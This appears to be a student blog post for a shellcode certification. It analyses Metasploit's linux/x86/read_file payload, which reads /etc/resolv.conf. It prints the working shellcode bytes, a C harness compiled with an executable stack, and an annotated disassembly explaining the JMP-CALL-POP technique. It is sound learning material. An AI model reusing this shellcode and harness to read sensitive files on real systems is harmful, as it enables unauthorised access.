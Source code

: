 # Assignment #5: Metasploit read_file

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-670

## Problem

- Take up at least 3 shellcode samples created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

## Solution

In this assignment we will take up the `linux/x86/read_file` shellcode from Metasploit, as generated by msfpayload. 

For this shellcode to work, we must provide it with a file name. For the purposes of this assignment, we will be reading the DNS configuration file `/etc/resolv.conf`. 


## Analysis

As always, let’s begin by trying to emulate the shellcode with Libemu to see if it can provide us with a nicely structured output of the execution logic. 

```
msfpayload linux/x86/read_file PATH=/etc/resolv.conf R | sctest -Svvvs 100000000000
```

But yet again, it appears to fail to determine the flow. So let’s go ahead and generate the shellcode in C format, append an execution skeleton to it, and run it to see what happens.

```bash
msfpayload linux/x86/read_file PATH=/etc/resolv.conf C > a5-msf_readfile.c
```

#### a5-msf_readfile.c

```c
#include<stdio.h>
#include<string.h>
/*
 * linux/x86/read_file - 78 bytes
 * http://www.metasploit.com
 * VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, PATH=/etc/resolv.conf, FD=1
 */
unsigned char code[] = \
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2f\x65\x74\x63\x2f\x72\x65\x73\x6f\x6c\x76\x2e\x63\x6f"
"\x6e\x66\x00";

int main()
{
	printf("Shellcode Length:  %d\n", strlen(code));
	int (*ret)() = (int(*)())code;
	ret();
}
```

```bash
gcc a5-msf_readfile.c -o a5-msf_readfile -fno-stack-protector -z execstack
```


Disassembling the shellcode with Ndisasm produces a very easy to understand instruction set that can be easily analyzed and understood directly, without the need of GDB. To help understand the instructions, the following C libraries were used

- `/usr/include/i386-linux-gnu/asm/unistd_32.h`
- `/usr/include/asm-generic/fcntl.h`

as well as the Intel Assembly Instruction Set manual

- `64-ia-32-architectures-software-developer-vol-2a-2b-instruction-set-a-z-manual.pdf`

The following is disassembled shellcode commented as part of the analysis:

```
msfpayload linux/x86/read_file PATH=/etc/resolv.conf  R | ndisasm -u -
```

```nasm
00000000  EB36              jmp short 0x38 					; go to stage
00000002  B805000000        mov eax,0x5 					; eax = #define __NR_open 5
00000007  5B                pop ebx 						; ebx = PAYLOAD address (pathname)
00000008  31C9              xor ecx,ecx 					; ecx =  (flags)	#define O_RDONLY        00000000
0000000A  CD80              int 0x80 						; int open(const char *pathname, int flags);
0000000C  89C3              mov ebx,eax 					; ebx = file descriptor (fd)
0000000E  B803000000        mov eax,0x3 					; eax = #define __NR_read 3
00000013  89E7              mov edi,esp 					; edi = top of stack 
00000015  89F9              mov ecx,edi 					; ecx = read into here (buf)
00000017  BA00100000        mov edx,0x1000 					; edx = 0x1000 [4096 bytes] (count)
0000001C  CD80              int 0x80 						; ssize_t read(int fd, void *buf, size_t count);
0000001E  89C2              mov edx,eax 					; edx = size of read data (count)
00000020  B804000000        mov eax,0x4 					; eax = #define __NR_write 4
00000025  BB01000000        mov ebx,0x1 					; ebx = 1 [stdout] (fd)
0000002A  CD80              int 0x80 						; ssize_t write(int fd, const void *buf, size_t count);
0000002C  B801000000        mov eax,0x1 					; eax = #define __NR_exit 1
00000031  BB00000000        mov ebx,0x0 					; ebx = 0 (status)
00000036  CD80              int 0x80 						; void exit(int status);
00000038  E8C5FFFFFF        call dword 0x2 					; put PAYLOAD address on the stack and begin execution

															; PAYLOAD = /etc/resolv.conf (null terminated)
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7265              jc 0xa9
00000044  736F              jnc 0xb5
00000046  6C                insb
00000047  762E              jna 0x77
00000049  636F6E            arpl [edi+0x6e],bp
0000004C  66                o16
0000004D  00                db 0x00
```


## Discussion and Conclusions

Our analysis has revealed how the Metasploit read_file shellcode operates.

This shellcode uses the JMP-CALL-POP technique to get the address of the payload, which in this case is the file name `/etc/resolv.conf`. It then proceeds to create a file descriptor to the file name with the `open()` system call; read 4096 bytes (1 memory page) from it with the `read()` system call; print read bytes to the stdout stream with the `write()` system call; and finally exit gracefully with the `exit()` system call.


## Example

A sample run produces the following output:

![alt text](https://github.com/adeptex/SLAE/blob/master/Assignment-5/read_file/example.png "Example")

Note: while executing a5-msf_readfile, the reported shellcode length is 4. This is of course due to the presence of NULL bytes in the shellcode.
